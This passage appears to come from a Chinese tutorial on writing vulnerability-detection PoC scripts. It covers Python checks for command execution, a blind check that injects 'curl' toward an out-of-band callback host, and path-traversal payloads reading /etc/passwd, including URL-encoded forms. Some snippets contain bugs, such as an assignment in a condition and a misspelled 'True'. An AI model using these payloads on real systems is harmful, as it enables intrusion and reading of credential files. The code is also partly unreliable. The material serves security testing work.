 ```python
html = json.loads(req.text)
if html['status'] == 200 and "root:x:0:0" in  html['data'] and req.status_code == 200:
    return True
# 情况四：(保险起见，可以引用re库，类似情况二)
import re
htmls = re.search(r"^root:x:0:0", req.text)
if "<html>" not in req.text and htmls and req.status_code == 200:
    return True
```

情况四中，代码表示： 当响应体中没有`<html>`标签，且响应体开头就是root:等内容，且响应码为200时，返回True，也就是漏洞存在（这只是示例）

对于没有回显的命令执行呢？

对于没有回显的命令执行，可以通过`curl http://反连平台IP`来检测：(可使用DNSLOG代替或自己编写反连平台，后续会添加到文档中)

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
​

path = "/a.php?cmd=curl%20{ssrfUrl}"
url = target + path
req = requests.get(url, headers=headers, timeout=10,verify=False)
if checkSsrf(ssrfUrl) and req.status_code = 200:
    return Ture
```

在上述代码中，会访问`http://IP:PORT/random/随机数`，然后去Info中查询随机数的MD5值，也就是访问`http://IP:PORT/info`。如果Info中有所设置随机数的MD5信息，那么漏洞存在

### 文件读取

在有回显的命令执行中，我们看到了会去查看类似于passwd这样的文件，那么如果是文件读取呢？

对于POST提交的数据或参数中传递的数据，可以原样粘贴到请求数据中，如：

```python
data = "../../../../etc/passwd"
url = "http://IP:PORT/a.php?a=../../../etc/passwd"
```

但由于requests库在引用时，如果是GET方法的请求包，则会将在路径中的`./../../`吞掉，当直接将`../../../../etc/passwd`写在URL中，很可能访问的实际上是`http://IP:PORT/etc/passwd`,所以此时需要进行URL编码，即将`/`编码为`%2F`，此时代码应该为：

```python
url = "http://IP:PORT/..%2F..%2F..%2F..%2F..%2F..%2Fetc/passwd"
```

若读取文件为**日志文件**，则需要引用`time`库。

常见的日志文件名为`21_08_05.log`等，为当天的日期与后缀名，此时我们可将代码写为：

```python
import time
logfile = time.strftime('%y_%m_%d.log', time.localtime(time.time()))
```
